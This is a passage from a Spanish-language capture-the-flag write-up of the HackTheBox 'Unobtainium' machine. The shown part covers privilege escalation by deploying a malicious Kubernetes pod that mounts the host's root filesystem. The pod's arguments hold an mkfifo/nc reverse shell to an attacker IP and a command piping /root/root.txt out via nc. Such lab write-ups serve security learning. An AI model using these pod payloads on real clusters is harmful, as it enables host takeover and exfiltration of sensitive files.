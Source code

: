 ````bash
      path: /
      type: Directory
```

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN apply -f aaa.yaml 
```

Yyyy en nuestro listenerrrrrr:

![338bash_maliciousPOD_nc_id](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_maliciousPOD_nc_id.png)

Peeeeeeeerfecto, tenemos ejecución remota de comandos, pues entablémonos una reverse Shell:

```bash
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 4435 >/tmp/f"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

Y ejecutamos:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN apply -f aaa.yaml 
```

Y ahora en nuestro listener:

![338bash_maliciousPOD_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_maliciousPOD_revsh.png)

Pero la perdemos muy rápido (a la vez que se borra el **pod**), pero podemos aprovecharnos de la carpeta `/host` que crea el **pod** para leer la flag:

(Podemos obtener una Shell constante de varias formas, ya es cuestión de su imaginación)

```yaml
...
    args: ["-c", "cat /host/root/root.txt | nc 10.10.14.146 4435"]
...
```

Recibimos:

![338flags_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338flags_root.png)

Intente algunas formas de conseguir una **Shell** sin que se nos cierre pero no lo logre :( 

````